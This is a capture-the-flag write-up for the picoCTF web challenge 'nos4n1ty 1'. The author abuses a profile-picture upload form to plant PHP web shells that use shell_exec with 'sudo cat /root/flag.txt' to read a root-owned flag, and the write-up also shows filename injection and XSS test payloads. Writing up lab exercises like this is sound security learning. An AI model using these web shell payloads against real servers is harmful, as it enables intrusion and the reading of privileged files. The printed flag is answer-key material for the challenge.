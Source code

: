 <h1>nos4n1ty 1</h1>

From: https://play.picoctf.org/practice/challenge/482

Author: Prince Niyonshuti N.

Description: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Tags: Easy, Web Exploitation, picoCTF2025, browser_webshell_solvable
---

<h2>General functionality</h2>
Upon launching the instance, the user is prompted to upload a profile picture via the following interface on the website:

![image](https://github.com/user-attachments/assets/c9f1df2a-a2ee-4b48-893e-25a27dea6eb4)

When the picture is uploaded, a confirmation string is returned in a basic html page called /upload.php

![image](https://github.com/user-attachments/assets/48dfad7b-0c32-47dc-9c5e-fb9faa12ee4c)

The html file for the page reveals what I understand to be the image loading and previewing script:

![image](https://github.com/user-attachments/assets/c2fb1ec3-f285-469c-b738-e3c08e3457fd)

<h2>Initial Thoughts</h2>

So, we know that PHP is in use by the URL after submitting the image. We also know that the name of the file uplaoded is returned to us in a confirmation page. We might be able to inject script to this system by creating a specific file name.

We will aim for remote code execution, since this may allow us to retrieve the contents of files stored in the root of the system.

From: https://www.imperva.com/learn/application-security/php-injection/
__"RCE happens when a threat actor uploads code into your website and executes it. Typically, the source of the issue is a PHP bug that accepts user input and then evaluates it as PHP code. For example, threat actors can exploit a RCE vulnerability to create a file that contains a malicious script, designed to let the actor gain access to the target website."__

<h2>Experimentation</h2>

Sending filename: `;phpinfo();`
- returns: `The file ;phpinfo(); has been uploaded Path: uploads/;phpinfo();`

Sending filenmae: `<?php eval ("echo ".$REQUEST["uploads"].";"); ?>`
- returns `The file <?php eval (%22echo %22.$REQUEST[%22uploads%22].%22;%22); ?> has been uploaded Path: uploads/`

This means that quotation marks are being replaced with "%22". This might mean that the filename we have sent is being parsed via rawurlencode() as per https://www.php.net/manual/en/function.rawurlencode.php which describes the function as:
__"Returns a string in which all non-alphanumeric characters except -_.~ have been replaced with a percent (%) sign followed by two hex digits. This is the encoding described in » RFC 3986 for protecting literal characters from being interpreted as special URL delimiters, and for protecting URLs from being mangled by transmission media with character conversions (like some email systems)."__

When I try to go the url after uploading my image... `http://standard-pizzas.picoctf.net:62426/uploads/%3C?php%20eval%20(%22echo%20%22.$REQUEST[%22uploads%22].%22;%22);%20?%3E`

We get a URL not found error, but also the text: `Apache/2.4.54 (Debian) Server at standard-pizzas.picoctf.net Port 62426` which might be a clue as to the available vulnerabilties.

After trying a few more injection types with the file name, I gave up and started prodding the other type of input santization - whether the file being uploaded is actually an image.

I prompted chat GPT for a mockup html and JS injection payload to see whether this is an avenue I should pursue.

Sending the following file and navigating to its path in the url...: 
```
<!-- test.html -->
<script>alert('XSS via HTML file');</script>
```
- returns:

![image](https://github.com/user-attachments/assets/c0b25a42-c7c4-4f6a-84d2-4ce213cd0cab)

This shows that its possible to get new HTML and Javascript onto the server via the file upload.

<h2>Exploring remote execution</h2>

After some further experimentation, I created a .php file with the code `<?php phpinfo(); ?>`. When I then navigated to that page on the server, many details about the installation were revealed. Some interesting ones have been noted below:

`System 	Linux challenge 6.8.0-1024-aws #26-Ubuntu SMP Tue Feb 18 17:22:37 UTC 2025 x86_64 `
`PHP API 	20190902`
`Apache Version 	Apache/2.4.54 (Debian)`
`Server Administrator 	webmaster@localhost`
`Server Root 	/etc/apache2`
`PHP Version 	7.4.33`
`cURL support 	enabled`
`cURL Information 	7.74.0`
`PWD 	/challenge`

From https://www.php.net/manual/en/function.shell-exec.php I took an example for shell execution code and modified it to show all files in an active directory.
Sending:
```
<?php
$output = shell_exec('ls -la');
echo "<pre>$output</pre>";
?>
```
- returns:

![image](https://github.com/user-attachments/assets/af4ae45e-da96-4134-ae48-688baec353a1)

It seems that, I can execute shell code, and see list the files in the current directory.

I wasn't able to shift directories via cd, but instead I can change the ls command to different directory using this payload
```
<?php
$output = shell_exec('ls /root -l');
echo "<pre>$output</pre>";
?>
```
However, this returns a blank page, how interesting...

with only specify the / directory, I can see the file structure for the machine:

![image](https://github.com/user-attachments/assets/543f62ec-0f89-440f-86e3-709b57bde680)

When sending the this command with `ls -la` command, we can see the priviliges for the different directories, notice that root doesn't have many permissions

![image](https://github.com/user-attachments/assets/f8f82b2b-abd2-4869-a107-506b34554c23)

from: https://linuxhandbook.com/linux-file-permissions/ this means that only an administrator can view this directory:

![image](https://github.com/user-attachments/assets/eb1aabfa-1dc3-4636-9a92-c1d7aeb56c61)

modifying the code to be:
```
<?php
$output = shell_exec('sudo ls /root -l');
echo "<pre>$output</pre>";
?>
```
- returns:

![image](https://github.com/user-attachments/assets/22230c0f-b698-485f-9790-7de542fb6364)

Cool! we can see the flag!

lets try the same shell code, but cat the file directly with the full path.
```
<?php
$output = shell_exec('sudo cat /root/flag.txt');
echo "<pre>$output</pre>";
?>
```
returns:

![image](https://github.com/user-attachments/assets/72047e65-403e-4cd0-bc23-2453883970c7)

__`picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`__

Whoopee!

Applications used during CTF:

- Kali Linux

- Mozilla Firefox

- Visual Studio Code


Core sources of information:

Imperva: https://www.imperva.com/learn/application-security/php-injection/
  - Overview of PHP injection

PHP: https://www.php.net/manual/en/function.shell-exec.php
  - Documentation for shell_exec()

Linux Handbook: https://linuxhandbook.com/linux-file-permissions/
  - Guides for linux file structure and permissions

ChatGPT: https://chatgpt.com/
  - Review of JS code in footer, revealing potential avenues for exploitation







